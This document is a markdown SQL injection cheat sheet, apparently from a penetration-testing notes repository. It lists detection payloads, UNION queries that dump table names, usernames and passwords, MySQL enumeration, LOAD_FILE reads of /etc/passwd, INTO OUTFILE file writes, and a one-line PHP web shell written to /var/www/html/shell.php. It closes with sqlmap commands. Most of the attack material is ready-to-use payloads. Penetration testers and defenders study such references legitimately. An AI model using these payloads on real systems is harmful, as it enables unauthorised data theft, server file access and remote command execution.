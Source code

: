 # SQL Injection

- SQL injection (SQLi) is a web security vulnerability that allows an attacker to interfere with
 the queries that an application makes to its database.
- Attackers can exploit SQLi to access and read sensitive information from the database, such as 
 user credentials, personal data, and financial records.
- In certain scenarios, SQLi can be leveraged to gain shell access to the server, enabling the
 attacker to execute arbitrary commands, escalate privileges, and potentially take full control
 of the server.
- It can occur in different parts of query:  
  1. `UPDATE`: Within value or WHERE clause  
  2. `INSERT`: Within values  
  3. `SELECT`: Within table name, column name, and ORDER BY clause.  

## Detection

- The single quote character `'` is often used in SQLi attacks. Look for errors or anomalies
 triggered by it.
- Look for differences in application responses when injecting some SQL-specific syntax.
- Boolean conditions such as `OR 1=1` and `OR 1=2`, which help identify successful injections
 based on different responses.
- Payloads designed to trigger time delays when executed within a SQL query, such as `SLEEP()` 
or `WAITFOR DELAY`. Monitor any delay in the application response.
- Out-of-band (OAST) payloads trigger a network interaction when executed within a SQL query. 
Monitor for any external interactions, such as DNS requests.

```shell
# Basic payload that always returns true
' OR '1'='1
" OR "1"="1
' OR '1'='1' #
" OR "1"="1" #
# Injection with a comment to ignore the rest of the query
' OR 1=1--
" OR 1=1--
```

## Exploitation

### 1. Retrieving Hidden Data
SQL injections can be used to reveal hidden or sensitive data that would otherwise not be
 visible to the user.

```shell
# Lets say the query is:
# SELECT * FROM products WHERE category = 'Gifts' AND released = 1
Gifts'--
# This payload comment the `AND released = 1` and all products
# will be visible even if they are not released.
```

### 2. Subverting Application Logic
SQL injections can also bypass authentication and authorization mechanisms, giving attackers 
control over the application logic.

```python
# Also check those above in detection section
admin' --
admin" --
```

### 3. UNION Injection
Union-based SQL injection allows attackers to combine the results of multiple queries,
 which can be used to extract data from different tables.

```python
# Check the number of columns in the table 
# (adjust the number to test for error responses)
' ORDER BY 1-- 
' UNION SELECT NULL--
# Attempts to find the number of columns in the query result
# as they must be same for both queries
' UNION SELECT 'a',NULL,NULL,NULL--
# Retrieves table names in result
' UNION select 1,database(),2,3-- -
' UNION select 1,schema_name,3,4 from INFORMATION_SCHEMA.SCHEMATA-- -
' UNION SELECT table_name, TABLE_SCHEMA, NULL, NULL FROM information_schema.tables--
' UNION SELECT column_name, NULL, NULL, NULL FROM information_schema.columns WHERE table_name='table_name'--
' UNION SELECT version(), NULL, NULL, NULL--
# Retrieves usernames and passwords in a single result
' UNION SELECT username || '~' || password FROM users--
```

### 4. Database Enumeration
```shell
# Use these with UNION queries if needed
# MySQL Fingerprinting
# These commands will through error in other DBs
SELECT @@version
SELECT POW(1,1) # expected output is 1
SELECT SLEEP(5)

# Getting information about Database users and tables
SELECT * FROM my_database.users;
SELECT SCHEMA_NAME FROM INFORMATION_SCHEMA.SCHEMATA;
```

### 5. Reading Files
- In MySQL, the DB user must have the `FILE` privilege to load a file's content into a table
 and then dump data from that table and read it.

```shell
# Use these with UNION queries if needed
# Getting DB user information
SELECT USER()
SELECT CURRENT_USER()
SELECT user from mysql.user
# checking if we have super user privileges
SELECT super_priv FROM mysql.user
# Dumping other privileges user may have
SELECT grantee, privilege_type FROM information_schema.user_privileges
```

- If you have `FILE` privilege, you can use this query to load file:

```shell
SELECT LOAD_FILE('/etc/passwd');
```

### 6. Writing Files
- Modern DBMSes disable file-write by default and require certain privileges for
DataBase Administrators to write files.
- To be able to write files to the back-end server using a MySQL database, we require three things:
1. User with `FILE` privilege enabled
2. MySQL global `secure_file_priv` variable `not enabled`
3. Write access to the location we want to write to on the server

```python
Note: The secure_file_priv variable is used to determine where
to read/write files from.
- An empty value lets us read files from the entire file system. 
- If a certain directory is set, we can only read from the folder 
specified by the variable.
- NULL means we cannot read/write from any directory.

- MariaDB has this variable set to empty by default
- MySQL uses /var/lib/mysql-files as the default folder.
```

```shell
SHOW VARIABLES LIKE 'secure_file_priv';
# If using UNION injection
SELECT variable_name, variable_value FROM information_schema.global_variables where variable_name="secure_file_priv"
```

- Writing data into files:

```shell
# Writing tables data into file
SELECT * from users INTO OUTFILE 'users.txt';
# Writing strings directly to file
SELECT 'this is a file' INTO OUTFILE 'file.txt';
# Note: Use 'FROM_BASE64("base64_data")' function in order to
# be able to write long files, including binary data.
```
```python
Note: To write a web shell, we must know the base web directory for the web server.
One way to find it is to use load_file to read the server configuration
- Apache's configuration found at /etc/apache2/apache2.conf
- Nginx's configuration at /etc/nginx/nginx.conf
- IIS configuration at %WinDir%\System32\Inetsrv\Config\ApplicationHost.config
- Use wordlists: 
  linux: seclists/Discovery/Web-Content/default-web-root-directory-linux.txt
  windows: seclists/Discovery/Web-Content/default-web-root-directory-windows.txt
- If none of the above works, we can use server errors displayed to us and try to
 find the web directory that way.
```

- Writing Web Shell:

```shell
' union select "",'<?php system($_REQUEST[0]); ?>', "", "" into outfile '/var/www/html/shell.php'-- -
```

## Using SQLMap For Exploitation

```shell
# Attacking GET request
sqlmap -u "<target_domain>/vuln.php?id=1" --batch
# Attacking POST request
sqlmap '<target_domain>' --data 'uid=1&name=test'
# Specify parameter to inject
sqlmap '<target_domain>' --data 'uid=1&name=test' -p uid
sqlmap '<target_domain>' --data 'uid=1*&name=test'
# Changing request method
sqlmap -u '<target_domain>' --data='id=1' --method PUT
# Passing full HTTP request
sqlmap -r req.txt
# Custom headers
sqlmap '<target_domain>' --data 'uid=1&name=test' --cookie='PHPSESSID=abc'
sqlmap '<target_domain>' --data 'uid=1&name=test' -H='Cookie:PHPSESSID=abc'

# Other options
--parse-errors # Displays errors as part of the program run
-t logs.txt # Stores results in file
--proxy # To use a proxy
--batch # Make decisions without user interaction
--level (1-5, default 1) # Expectancy of success
--risk (1-3, default 1) # Risk of causing problems
```
- Where usage of OR payloads is a must (e.g., in case of login pages), we may have to raise
 the risk level ourselves because OR payloads are dangerous in a default run.